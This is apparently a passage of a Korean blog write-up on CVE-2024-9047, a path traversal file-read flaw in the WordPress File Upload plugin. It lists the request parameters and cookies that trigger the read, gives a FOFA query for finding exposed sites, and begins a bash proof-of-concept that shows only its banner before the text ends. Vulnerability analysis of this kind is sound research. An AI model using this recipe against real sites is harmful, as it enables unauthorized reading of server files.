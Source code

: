 그리고 파일 끝애 도달하면 ;echo $buffer을 통해 파일 내용을 출력합니다.

- GET/POST 전달
    - 핸들러 = "dboption", 고정값
    - session_legacy = 1, 임의값
    - dboption_base = "쿠키", 고정값
    - dboption_useold = 1, 임의값
    - wfu_cookie = abccc, 쿠키 값과 일치
    - file=abc123, 쿠키 값과 일치
    - ticket=bcd234, 쿠키 값과 일치
- 쿠키 배달
    - wfu_download_ticket_bcd234 = 타임스탬프
    - wfu_storage_abc123=파일명, 경로 탐색이 가능
    - wfu_ABSPATH=디렉토리

요약

GET/POST 매개변수를 통해 $file_code를 제어한 다음, Cookie를 제어하고 $filepath에 값을 할당한 다음 마지막으로 $filepath의 내용을 출력할 수 있습니다. die() 또는 버그를 방지하기 위해 프로세스 중에 몇 가지 조건을 충족해야 합니다.

## Finding Targets

![image.png](/assets/posts/one-day/2025-02-04/image-004.png)

## POC

```bash
#!/bin/bash

# CVE-2024-9047 WordPress File Upload plugin, in the wfu_file_downloader.php file before version <= 4.24.11
# FOFA body="wp-content/plugins/wp-file-upload" && body="wordpress-file-upload-style-css"
# Medium https://medium.com/@verylazytech
# Github https://github.com/verylazytech
# BuyMeACoffee https://buymeacoffee.com/verylazytech
# https://verylazytech.com
# https://x.com/verylazytech

banner() {
cat <<'EOF' 
  ______     _______   ____   ___ ____  _  _      ___   ___  _  _ _____ 
 / ___\ \   / / ____| |___ \ / _ \___ \| || |    / _ \ / _ \| || |___  |
| |    \ \ / /|  _|     __) | | | |__) | || |_  | (_) | | | | || |_ / / 
| |___  \ V / | |___   / __/| |_| / __/|__   _|  \__, | |_| |__   _/ /  
```